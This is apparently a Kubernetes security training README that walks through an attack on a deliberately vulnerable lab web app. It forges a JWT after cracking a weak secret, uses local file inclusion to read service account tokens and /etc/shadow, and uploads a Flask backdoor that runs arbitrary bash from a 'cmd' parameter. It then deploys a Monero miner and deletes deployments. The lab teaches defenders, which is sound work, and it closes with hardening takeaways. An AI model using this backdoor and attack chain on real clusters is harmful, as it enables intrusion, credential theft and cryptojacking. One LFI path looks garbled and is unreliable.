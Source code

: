# Exploit Application Vulnerabilities

Application vulnerabilities can bring wide range of different *attack entrypoints*. In addition to Kubernetes-specific vulnerabilities and misconfigurations, this can lead to various beautiful attacks.

---
![K8s threat matrix](../static/03-k8s-matrix.png)
*Kubernetes threat matrix for the demo attack below*

---

## Demo: run a crypto-miner in the cluster

### Attack description:
- **Setup**: a K8s cluster with a web application deployed
- **Attacker**: an external user without any access to the cluster
- **Target**: kubectl access to the cluster (then: cluster compute resources, cluster availability, application data, more)
- **Entrypoint**: web application


## Steps to reproduce

1. deploy [./vulnerable-app](vulnerable-app) (both `auth-api` and `images-api`) and `another-app` (empty)

2. explore the images service: [http://images.vulnerable-app.seck8s.slurm.io](http://images.vulnerable-app.seck8s.slurm.io), [http://images.vulnerable-app.seck8s.slurm.io?token=foo](http://images.vulnerable-app.seck8s.slurm.io?token=foo):
[![Images-api forbidden](../static/03-application-security/01-images-api.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=49m31s)

3. explore the auth service: [http://auth.vulnerable-app.seck8s.slurm.io/](http://auth.vulnerable-app.seck8s.slurm.io/), sign-up a user:
[![Auth-api signup](../static/03-application-security/02-auth-api-signup.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=49m56s)

4. login with the newly created user and be redirected to the images service:
[![Images-api user account](../static/03-application-security/03-images-api-jwt.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=50m14s)

5. side note: it is insecure to pass sensitive information in GET parameters, see how it gets logged to stdout by Flask: [dashboard link](http://dashboard.seck8s.slurm.io/clusters/local/namespaces/vulnerable-app/deployments/images-api/logs)

---

6. copy the JWT token, explore it in [jwt.io](https://jwt.io/):
    - architecture issue: symmetric algorithm (HS256 not RS256) => both services (the one that generates and another that checks the token) use the same secret and therefore *both can issue a new JWT*

7. crack or leak the secret `secret123`:
    - leaked through the K8s configuration (secret mount to the env var `SECRET_KEY` is hard-coded in the manifest): [dashboard auth-api](http://dashboard.seck8s.slurm.io/clusters/local/namespaces/vulnerable-app/deployments/auth-api), [dashboard images-api](http://dashboard.seck8s.slurm.io/clusters/local/namespaces/vulnerable-app/deployments/images-api)
    - since the manifests are version-controlled, can be found in the Git commit history (`git blame`): [github link](https://github.com/Slurmio/webinar-seck8s/blob/98bab96647708ab5368b5b51ccdf96dd2071894e/03-application-security/vulnerable-app/images-api/deploy/images-api.yaml#L22) (*vulnerability: [Hard-Coded Credentials](https://owasp.org/www-community/vulnerabilities/Use_of_hard-coded_password)*. Remember: source code is not secret!)
    - the secret is weak therefore very easy to crack - in minutes with the tool [lmammino/jwt-cracker](https://github.com/lmammino/jwt-cracker) (*vulnerability: Weak Secret*)
    [![Cracked jwt token](../static/03-application-security/03-jwt-cracked.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=52m45s)

8. escalate provileges by changing the `"role": "user"` to `"role": "admin"` in the JWT payload (*vulnerability: [Broken User Authentication](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication)*)

9. proceed to `images-api` with the new token, see the admin page

---

10. read some files from the pod: `../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token` (pod service account's token and certificate), `../app.py` (source code of the Flask app), `../../../../../../etc/shadow/proc/1/environ` (pod environment variables), etc. (*vulnerability: [LFI, Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)* + too high privileges as the pod is running as `root` in the container)

> Note: by now, we acquired the service account credentials to the cluster. If we know the external Kube API address (if it's exposed), then we have the remote kubectl access:
> `kubectl --server=https://kubernetes.default.svc --certificate-authority=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt --token=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token) <command>`

> However, Kube API is not always exposed, so let's try to get kubectl working from the pod itself.
---

11. upload the new Flask file to `../app.py` with the backdoor activated via GET parameter `cmd` (*vulnerability: [Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)* -- the attacker can upload file to an arbitrary directory):
    - construct the payload ([payloads/app.py](payloads/app.py)):
    ```python
    ...
    @app.route("/", methods=["GET"])
    def home():
        cmd = request.args.get('cmd')
        if cmd:
            import subprocess
            p = subprocess.run(["bash", "-c", cmd], stderr=subprocess.STDOUT, stdout=subprocess.PIPE)
            return p.stdout.decode()
        ...
    ```
    - try to browse [http://images.vulnerable-app.seck8s.slurm.io/?cmd=ls](http://images.vulnerable-app.seck8s.slurm.io/?cmd=ls), get Unauthorized
    ```sh
    TOKEN=<your token>
    curl -vv -o /tmp/out.html -F "file=@payloads/app.py; filename=../app.py" "http://images.vulnerable-app.seck8s.slurm.io/?token=$TOKEN"
    ```
    - try again [http://images.vulnerable-app.seck8s.slurm.io/?cmd=ls](http://images.vulnerable-app.seck8s.slurm.io/?cmd=ls), get the backdoor shell
    - since the server is in Debug mode, it auto-reloads without restarting the pod

12. use the backdoor to install `kubectl` (note again: the pod is running Ubuntu as `root`) by navigating to `http://images.vulnerable-app.seck8s.slurm.io/?cmd=...`:
    - `kubectl get all`
    - install curl: `apt-get update`, `apt-get -y install curl`
    - install kubectl ([instruction](http://kubernetes.io/docs/tasks/tools/install-kubectl-linux/)):
        - `curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"`
        - `install -o root -g root -m 0755 kubectl /usr/local/bin/kubectl`
    - `kubectl get all`

13. note, the pod's SA has only permissions on Deployments -- it's done by mistake by another developer who accidentally gave extra permissions to the default service account in the namespace `vulnerable-app` (see [vulnerable-app/another-app/deploy/rbac.yaml](vulnerable-app/another-app/deploy/rbac.yaml))

14. now, let's deploy a miner:
    - use the web form [http://images.vulnerable-app.seck8s.slurm.io/?token=...](http://images.vulnerable-app.seck8s.slurm.io/?token=...) to upload the miner's manifest [payloads/monero-deployment.yaml](payloads/monero-deployment.yaml) (note: you need to use the admin JWT token again)
    - use the backdoor to: `kubectl apply -f images/monero-deployment.yaml`

15. or shut down the cluster's payload (Deployment only, permitted by RBAC): `kubectl delete deployment auth-api`

16. cleanup:
    ```sh
    cd vulnerable-app
    k delete -f another-app/deploy
    k -n vulnerable-app delete -f images-api/deploy
    k -n vulnerable-app delete -f auth-api/deploy
    k delete ns vulnerable-app
    cd ../../02-exposed-dashboard/
    k -n exposed-dashboard delete -f kube-web-view/deploy
    k -n exposed-dashboard delete -f kube-web-view/deploy-ingress
    ```

## Takeaways
- Application vulnerabilities are common attack entrypoints, see [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- Try to minimize the attacker's capabilities (use minimal images as alpine, don't run containers as root, note the sensitive information to be hard-coded, minimize privileges of the service accounts, etc)
